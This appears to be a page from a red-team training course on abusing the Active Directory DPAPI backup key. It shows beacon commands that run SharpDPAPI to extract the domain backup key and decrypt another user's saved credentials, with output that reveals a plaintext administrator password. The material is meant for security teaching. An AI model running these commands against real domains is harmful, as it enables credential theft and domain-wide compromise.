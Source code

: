 
As we've seen in previous chapters there are some secrets, like those stored in the [Windows Credential Manager](https://www.zeropointsecurity.co.uk/path-player?courseid=red-team-ops&unit=677fb3f7bc8c65b5c600bcd8), that are protected using the Data Protection API (DPAPI).  The secrets themselves are encrypted with a randomly generated AES key, called a masterkey, which itself is encrypted using DPAPI.  The private key that DPAPI uses to encrypt the masterkey is derived from the user's password.  This, in theory, means only that user can decrypt the key and access their saved secrets.  However, when the user changes their password (or it's changed by an administrator), DPAPI can no longer generate keys to decrypt their masterkey.

To that end, a copy of the user's masterkey is encrypted with a "backup key" that is stored in Active Directory.  This allows a user to decrypt the backup copy of their masterkey, and then re-encrypt a new copy using a key derived from their updated password.  From an adversarial perspective, obtaining this backup key ultimately allows them to decrypt all DPAPI blobs for any user in the domain, which may be useful for maintaining access to sensitive credentials. 

The backup key is randomly generated during the initial creation of the domain, and like the krbtgt secret, is never automatically changed.  However, there is also no officially supported way of changing it.  It can be extracted from a domain controller (by a domain administrator) using the [BackupKey Remote Protocol](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-bkrp/90b08be4-5175-4177-b4ce-d920d797e3a8).  This is built into tools such as Mimikatz's `lsadump::backupkeys` command and SharpDPAPI's `backupkey` command.

```powershell
beacon> execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Release\SharpDPAPI.exe backupkey

[*] Action: Retrieve domain DPAPI backup key

[*] Using current domain controller  : lon-dc-1.contoso.com
[*] Preferred backupkey Guid         : 12c95677-bb3d-4932-aab9-1e89c1dd005d
[*] Full preferred backupKeyName     : G$BCKUPKEY_12c95677-bb3d-4932-aab9-1e89c1dd005d
[*] Key                              : HvG1s[...snip...]lXQns=
```

With local admin access to a computer, an adversary can enumerate saved credentials for all users.  The example below how a session running in high-integrity as _dyork_ can enumerate credentials stored by _pchilds_.

```powershell
beacon> getuid
[*] You are CONTOSO\dyork (admin)

beacon> execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Release\SharpDPAPI.exe credentials

[*] Action: User DPAPI Credential Triage

[*] Triaging Credentials for ALL users

Folder       : C:\Users\pchilds\AppData\Local\Microsoft\Credentials\

  CredFile           : 9CAEEF854B7702E986B47C751DFE9AD2

    guidMasterKey    : {120b3a8a-683d-4db8-8f13-e4c466949bd2}
    size             : 396
    flags            : 0x20000000 (CRYPTPROTECT_SYSTEM)
    algHash/algCrypt : 32772 (CALG_SHA) / 26115 (CALG_3DES)
    description      : Local Credential Data

    [X] MasterKey GUID not in cache: {120b3a8a-683d-4db8-8f13-e4c466949bd2}
```

The `/rpc` method will not work in this case, because dyork cannot recover the masterkey for pchilds.  Instead, we use the domain's master backup key to decrypt the credentials via the `/pvk` parameter.

```powershell
beacon> execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Release\SharpDPAPI.exe credentials /pvk:HvG1s[...snip...]lXQns=

[*] Action: User DPAPI Credential Triage

[*] Using a domain DPAPI backup key to triage masterkeys for decryption key mappings!

[*] User master key cache:

{120b3a8a-683d-4db8-8f13-e4c466949bd2}:62DD49BC2CF3000FC9DF3E3B6B48CA732D77FB34

[*] Triaging Credentials for ALL users

Folder       : C:\Users\pchilds\AppData\Local\Microsoft\Credentials\

  CredFile           : 9CAEEF854B7702E986B47C751DFE9AD2

    guidMasterKey    : {120b3a8a-683d-4db8-8f13-e4c466949bd2}
    size             : 396
    flags            : 0x20000000 (CRYPTPROTECT_SYSTEM)
    algHash/algCrypt : 32772 (CALG_SHA) / 26115 (CALG_3DES)
    description      : Local Credential Data

    LastWritten      : 14/02/2025 14:02:28
    TargetName       : Domain:target=TERMSRV/lon-ws-1
    TargetAlias      : 
    Comment          : 
    UserName         : LON-WS-1\Administrator
    Credential       : Passw0rd!
```